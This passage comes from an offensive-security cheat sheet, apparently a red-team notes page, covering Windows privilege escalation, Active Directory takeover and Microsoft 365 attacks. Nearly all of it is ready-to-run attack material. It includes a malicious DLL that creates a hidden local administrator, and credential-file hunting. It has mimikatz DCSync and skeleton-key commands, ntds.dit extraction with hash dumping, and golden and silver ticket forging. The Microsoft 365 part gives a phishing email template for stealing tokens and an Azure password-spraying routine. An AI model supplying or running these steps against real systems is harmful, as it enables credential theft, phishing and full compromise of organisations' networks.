Procmon will be useful to identify program missing dll's.

On your attacker machine, cross compile a malicious dll as `mal.cpp`

``` cpp
#include <stdlib.h>
#include <windows.h>

BOOL APIENTRY DllMain(
HANDLE hModule,// Handle to DLL module
DWORD ul_reason_for_call,// Reason for calling function
LPVOID lpReserved ) // Reserved
{
    switch ( ul_reason_for_call )
    {
        case DLL_PROCESS_ATTACH: // A process is loading the DLL.
        int i;
  	    i = system ("net user dave3 password123! /add");
  	    i = system ("net localgroup administrators dave3 /add");
        break;
        case DLL_THREAD_ATTACH: // A process is creating a new thread.
        break;
        case DLL_THREAD_DETACH: // A thread exits normally.
        break;
        case DLL_PROCESS_DETACH: // A process unloads the DLL.
        break;
    }
    return TRUE;
}
```
now, cross compile
``` bash
x86_64-w64-mingw32-gcc mal.cpp --shared -o SharedLib.dll
```

</details>

<details>
<summary> group policy preferences file </summary>

msft publishes the [AES key](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-gppref/2c15cbf0-f086-4c74-8b70-1f2fa45dd4be)
``` powershell
# find cpassword under the sysvol share in any xml file
Get-ChildItem -Path "$env:LOGONSERVER\sysvol" -Filter *.xml -Recurse | Select-String "cpassword"
```
</details>

<details>
<summary>Recovering Credentials from a PXE Boot Image</summary>
</details>

<details>
<summary>always install elevated registry setting </summary>

``` bat
rem This will only work if both registry keys contain "AlwaysInstallElevated" with DWORD values of 1.
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated
```
</details>

<details>
<summary> unattended install files</summary>

``` powershell
# unattended install files typically in these locations
c:\sysprep.inf
c:\sysprep\sysprep.xml
c:\windows\sysprep\sysprep.inf
c:\windows\sysprep\sysprep.xml
c:\windows\system32sysprep\Unattended.xml
%WINDIR%\Panther\Unattend\Unattended.xml
%WINDIR%\Panther\Unattended.xml
```
</details>

<details>
<summary>Exploits</summary>

privileges that may lead to privilege escalation are SeBackupPrivilege, SeAssignPrimaryToken, SeLoadDriver, and SeDebug and SeImpersonatePrivilege.

check for kernel vulns from microsoft https://msrc.microsoft.com/update-guide

``` bat
rem look for user privileges 
whoami /priv
whoami /all

rem get system info and patch info 
systeminfo
Get-CimInstance -Class win32_quickfixengineering | Where-Object { $_.Description -eq "Security Update" }
```

</details>
</details>

## Domination

<details>
<summary> DCSync </summary>

``` bat
rem using mimikatz, extract the krbtgt hash via replication using the Directory Replication Service Remote (DRSR) Protocol
lsadump::dcsync /user:krbtgt
```
</details>

<details>
<summary> skeleton key </summary>

``` bat
rem using mimikatz, a skelton key can be loaded into memory on a domain controller that allows anyone to authenticate as any user in the domain with the password "mimikatz"
privilege::debug
misc::skeleton
```
</details>

<details>
<summary> extract ntds.dit oneliner </summary>

``` bat
ntdsutil "ac in ntds" "ifm" "cr fu c:\mybackup" q q
```
</details>

<details>
<summary> extract ntds.dit (to be used for golden ticket) </summary>

target machine (domain controller):
``` bat
rem as administrator on a domain controller, list shadow copies
vssadmin.exe list

rem if no existing copies, create one. 
vssadmin.exe create shadow /for=c:

rem copy the ntds.dit file from the shadoy copy
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\ntds\ntds.dit c:\temp\ntds.dit

rem in order to extract hashes from ntds.dit you need the encryption key from the system hive. save the key from the registry:
reg save hklm\system c:\temp\system /y
```
attacker machine:
``` bash
# now, extract the ntds.dit and system files from the dc (use smbclient.py or whatever works). Once obtained, on the attacker machine, dump hashes
secretsdump.py -ntds ~/ntds.dit -system ~/system -outputfile hashes.txt LOCAL

# alternatively, you could do all of the above remotely using secretsdump.py. specifically here, were looking for the krbtgt hash
secretsdump.py domain.com/username:'password'@10.20.10.10 -just-dc-user krbtgt

# --------- with the above hashes, we can conduct the following golden ticket attack --------- #

# get the SID for the domain (stop lookup after enumerating to 520)
lookupsid.py domain.com/username:'password'@10.20.10.10 520

# armed with the domain SID and the krbtgt AES key, we can create a golen ticket
ticketer.py -domain domain.com -domain-sid S-1-5-21-XXXXXXXXX-YYYYYYYYY -aesKey AES_KEY_HERE Administrator

# export the ticket to later be used by impacket 
export KRB5CCNAME=Administrator.ccache

# use the ticket with impacket against a fileserver on the domain and run a command remotely
wmiexec.py -k -no-pass -dc-ip 10.20.10.10 file01.domain.com hostname
```
</details>

<details>
<summary> silver ticket </summary>

``` bat
rem like above, obtain the domain SID
lookupsid.py domain.com/username:'password'@10.20.10.10 520

rem in this case, we want to obtain the aes256 hash for a computer account (in this case file01$)
secretsdump.py domain.com/username:password@10.20.10.10 -just-dc-user file01$

rem using rubeus (could also use ticketer) generate the ticket for the SMB service on the fileserver
Rubeus.exe sliver /service:cifs/file01.domain.com /aes256:HASH_G0ES_HERE /sid:S-1-5-21-XXXXXXX-YYYYYYYY-ZZZZZZZ /ptt /user:username

rem ensure the kerberos ticket has been loaded into local memory 
klist

rem now, try to hit access the server
dir \\file01.domain.com\c$

rem in this example, we can instead forge a ticket for a different "serviceclass" (we did cifs before) that lets us query the target's event logs using an arbitrary username and user id
Rubeus.exe sliver /service:host/file01.domain.com /aes256:HASH_G0ES_HERE /sid:S-1-5-21-XXXXXXX-YYYYYYYY-ZZZZZZZ /ptt /user:anything /id:777

rem now query the event logs
wevutil /r:file01.domain.com qe Security "/q:*[System/EventID=4624] and *[EventData/Data[@Name='TargetUserName'='anything']" /f:text /c:1

```

</details>

## Microsoft O365
<details>
<summary> AADInternals </summary>

``` powershell
# conduct azure recon on given domain name
Invoke-AADIntReconAsOutsider -DomainName domain.com | Format-Table

# pass list of users to verify valid usernames
Get-Content .\users.txt | Invoke-AADIntUserEnumerationAsOutsider -Method Normal

# Send a phishing email to recipients using customised message and save the tokens to cache
$message = 'Dear recipient, <br> Your Microsoft account has been compromised. Login at <a href="{1}">https://microsoft.com</a> to reset your password. <br> Use the following security code: <b>{0}</b>.' 
Invoke-AADIntPhishing -Recipients "wvictim@domain.com","wvictim2@domain.com" -Subject "Your Microsoft account is compromised - Actions required." -Sender "Johnny Carson <jc@somewhere.com>" -SMTPServer smtp.myserver.local -Message $message -SaveToCache

# open a user's mailbox using the tokens you just obtained from previous phishing
Open-AADIntOWA
```
</details>

<details>
<summary> Password Spraying Azure </summary>

``` bash
# use trevorspray to get the token endpoint
trevorspray --recon domain.com

# spray passwords against known users
trevorspray --users /tmp/users.txt --passwords /tmp/passwords.txt --url 'https://login.windows.net/TENANT-ID/oauth2/token'

```
</details>

<details>
<summary> GraphRunner </summary>

``` powershell
# obtain a devicelogin token to use in a phishing email
Get-GraphTokens

# check security groups using the auth tokens obtained from prior phishing attack
Get-SecurityGroups -Tokens $tokens

# identify dynamic security groups to possibly use for privelege escalation
Get-DynamicGroups -Tokens $tokens
```
</details>